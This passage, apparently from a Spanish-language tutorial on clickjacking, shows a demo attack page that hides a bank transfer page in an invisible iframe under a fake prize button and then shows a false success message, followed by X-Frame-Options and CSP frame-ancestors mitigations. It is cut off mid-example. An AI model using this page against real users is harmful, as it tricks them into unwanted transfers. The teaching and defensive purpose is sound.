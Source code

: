 ```html
        <button id="boton-trampa">¡RECLAMAR PREMIO AHORA!</button>
        
        <!-- Área clickeable que está encima de todo -->
        <div id="area-clickeable"></div>
    </div>
    
    <!-- Iframe con la página víctima (invisible) -->
    <iframe id="victima" src="https://banco-vulnerable.com/transferencia"></iframe>
    
    <script>
        // Hacemos que el área clickeable permita que los clics lleguen al iframe
        document.getElementById('area-clickeable').addEventListener('click', function() {
            // El usuario cree que está haciendo clic en "RECLAMAR PREMIO"
            // pero en realidad está haciendo clic en el botón de transferencia
            // del iframe invisible
            document.getElementById('victima').style.pointerEvents = 'auto';
            
            // Después de un breve momento, volvemos a bloquear los clics
            setTimeout(function() {
                document.getElementById('victima').style.pointerEvents = 'none';
                
                // Mostramos un mensaje falso de éxito
                alert('¡Felicidades! Tu premio está en camino.');
            }, 100);
        });
    </script>
</body>
</html>
```

## Mitigaciones

### 1. Encabezado X-Frame-Options

El encabezado HTTP `X-Frame-Options` puede ser usado para indicar si un navegador debe permitir que una página sea renderizada en un `<frame>`, `<iframe>`, `<embed>` o `<object>`. Los sitios pueden usar esto para evitar ataques de clickjacking.

```
// En el servidor
response.setHeader('X-Frame-Options', 'DENY');  // No permite ningún iframe
// O
response.setHeader('X-Frame-Options', 'SAMEORIGIN');  // Solo permite iframes del mismo origen
```

### 2. Content Security Policy (CSP)

El uso de la directiva `frame-ancestors` en CSP proporciona más control granular y es el reemplazo a largo plazo de X-Frame-Options.

```
// En el servidor
response.setHeader(
  'Content-Security-Policy', 
  "frame-ancestors 'none';"  // No permite ningún iframe
);
// O
response.setHeader(
  'Content-Security-Policy', 
  "frame-ancestors 'self';"  // Solo permite iframes del mismo origen
);
// O
response.setHeader(
  'Content-Security-Policy', 
```
